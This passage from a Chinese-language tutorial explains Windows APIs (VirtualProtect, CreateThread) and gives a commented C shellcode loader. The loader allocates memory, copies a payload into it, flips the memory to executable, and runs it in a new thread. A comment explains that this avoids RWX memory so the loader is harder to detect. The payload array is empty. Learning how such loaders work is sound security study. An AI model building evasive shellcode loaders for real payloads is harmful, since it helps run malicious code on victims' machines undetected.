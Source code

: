 函数的作用是将指定内存区域的访问权限和页面属性设置为新的值，并将之前的值存储在指定的变量中。



**CreateThread**                                                                                        

https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread

`CreateThread` 函数是 Windows API 中的一个函数，用于在当前进程中创建一个新的线程。

```c++
HANDLE CreateThread(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  SIZE_T                  dwStackSize,
  LPTHREAD_START_ROUTINE  lpStartAddress,
  __drv_aliasesMem LPVOID lpParameter,
  DWORD                   dwCreationFlags,
  LPDWORD                 lpThreadId
);
```



#### 代码讲解

```c++
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
  DWORD oldprotect = 0;

	//shellcode在main函数内，存储在pe结构的sections table中的.text部分
	unsigned char payload[] = {};
	unsigned int payload_len = sizeof(payload);
	
	// 使用VirtualAlloc申请一个可读可写的内存，这里没有申请执行权限是为了防止出现RWX权限的敏感内存
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	// 将shellcode复制到申请的内存中，这里还可以用memcpy等
	RtlMoveMemory(exec_mem, payload, payload_len);
	
	// 使用VirtualProtect添加执行权限
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	// 如果返回正常，创建线程执行shellcode
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```
